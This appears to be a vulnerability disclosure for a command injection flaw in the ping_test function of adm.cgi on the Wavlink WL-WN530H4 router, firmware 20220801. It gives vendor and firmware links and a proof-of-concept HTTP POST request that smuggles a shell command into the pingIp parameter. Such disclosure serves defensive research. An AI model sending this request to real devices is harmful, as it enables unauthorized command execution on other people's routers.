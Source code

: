 ## Wavlink WL-WN530H4 command injection

### Overview

* Vendor: Wavlink

* Product: Wavlink WL-WN530H4
* Version: 20220801

* Manufacturer's address： https://www.wavlink.com/en_us/product/WL-WN530H4.html
* Firmware download address ：https://www.wavlink.com/en_us/firmware/details/45.html

### Vulnerability details

Wavlink WL-WN530H4 20220801 was found to contain a command injection vulnerability in the `ping_test` function of the `adm.cgi` via the `pingIp` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

![image](./img/1.png)

#### PoC

```
POST /cgi-bin/adm.cgi HTTP/1.1
Host: 192.168.10.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 103
Origin: http://192.168.10.1
Connection: close
Referer: http://192.168.0.254
Cookie: session=562230006

page=ping_test&CCMD=4&pingIp=1;pwd;
```


